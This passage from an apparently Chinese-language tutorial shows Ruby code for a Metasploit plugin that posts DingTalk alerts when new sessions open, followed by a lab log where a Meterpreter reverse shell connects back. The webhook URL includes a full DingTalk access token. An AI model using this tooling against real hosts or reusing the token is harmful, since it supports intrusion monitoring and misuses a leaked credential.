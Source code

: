_**No.3  
**_

_**发送 Webhook 请求**_

按照钉钉的开发文档发送 markdown 格式的消息，通过响应的错误码判断是否发送成功。

```
def send\_text\_to\_dingtalk(session)
    # https://ding-doc.dingtalk.com/doc# /serverapi2/qf2nxq/9e91d73c
    uri\_parser = URI.parse(dingtalk\_webhook)
    markdown\_text = "## You have a new # {session.type} session!\\n\\n" \\
        "\*\*platform\*\* : # {session.platform}\\n\\n" \\
        "\*\*tunnel\*\* : # {session.tunnel\_to\_s}\\n\\n" \\
        "\*\*arch\*\* : # {session.arch}\\n\\n" \\
        "\*\*info\*\* : > # {session.info ? session.info.to\_s : nil}"
    json\_post\_data = JSON.pretty\_generate({
        msgtype: 'markdown',
        markdown: { title: 'Session Notifier', text: markdown\_text }
        })
    http = Net::HTTP.new(uri\_parser.host, uri\_parser.port)
    http.use\_ssl = true
    request = Net::HTTP::Post.new(uri\_parser.request\_uri)
    request.content\_type = 'application/json'
    request.body = json\_post\_data
    res = http.request(request)
    body = JSON.parse(res.body)
    print\_status((body\['errcode'\] == 0) ? 'Session notified to DingTalk.' : 'Failed to send notification.')
end
```

_**No.3  
**_

_**使用演示**_

创建钉钉机器人，设置关键词：session

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUCsOA6BXoUpJvJh4Hyq85I6ZwCyVibicZLXXXHQrFDicvkuIE0vwWIpzB7U1G4YjPq3MicSn5UHkbj5w/640?wx_fmt=png)

```
msf6 exploit(multi/handler) > load session\_notifier 
\[\*\] Successfully loaded plugin: SessionNotifier
msf6 exploit(multi/handler) > set\_session\_dingtalk\_webhook https://oapi.dingtalk.com/robot/send?access\_token=5a439cc0009abd551a97e1302a964801da2f3ffe5ba06e97d19294a55202caa3
msf6 exploit(multi/handler) > start\_session\_notifier 
\[\*\] DingTalk notification started.
msf6 exploit(multi/handler) > run

\[\*\] Started reverse TCP handler on 192.168.56.1:7788 
\[\*\] Sending stage (175174 bytes) to 192.168.56.105
\[\*\] Meterpreter session 1 opened (192.168.56.1:7788 -> 192.168.56.105:1078) at 2020-10-04 11:08:54 +0800
\[\*\] Session notified to DingTalk.

meterpreter >
```
